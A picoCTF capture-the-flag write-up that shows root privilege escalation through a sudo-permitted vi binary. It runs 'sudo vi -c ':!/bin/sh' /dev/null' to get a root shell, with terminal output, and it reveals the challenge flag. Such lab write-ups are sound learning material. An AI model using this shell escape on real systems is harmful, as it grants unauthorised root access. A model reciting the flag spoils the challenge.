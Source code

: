 ```yaml
---
tags:
  - GTFO-Bins
  - priv-escalation
created: 2023-10-18
last_modified_at: 2024-02-04
---
```

# Permissions
---
### Description
---
Can you read files in the root file?

Additional details will be available after launching your challenge instance.
### Hints
---

> [!hint]- Hint(s)
> 1. https://gtfobins.github.io/gtfobins/vi/#sudo

### Step(s)
---
1. You first should find if the current user has any sudo permissions by using the command `sudo -l` 
	```bash
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

2. We see that we have permission to run vi with sudo. Checking GTFOBins we see that we can use the command `sudo vi -c ':!/bin/sh' /dev/null` which will give us root shell
3. just for viewing pleasure I usually will run `/bin/bash` to get a bash shell which is just more appealing and allows for using the up and down arrows
4. The root flag can be found as a "hidden" file in the root folder
```bash
picoplayer@challenge:~$ sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
# ls /root
# ls -ahl /root
total 12K
drwx------ 1 root root   23 Aug  4 21:33 .
drwxr-xr-x 1 root root   51 Oct 17 17:50 ..
-rw-r--r-- 1 root root 3.1K Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4 21:33 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}
```

### Flag
---
> [!question]- Flag
> picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}







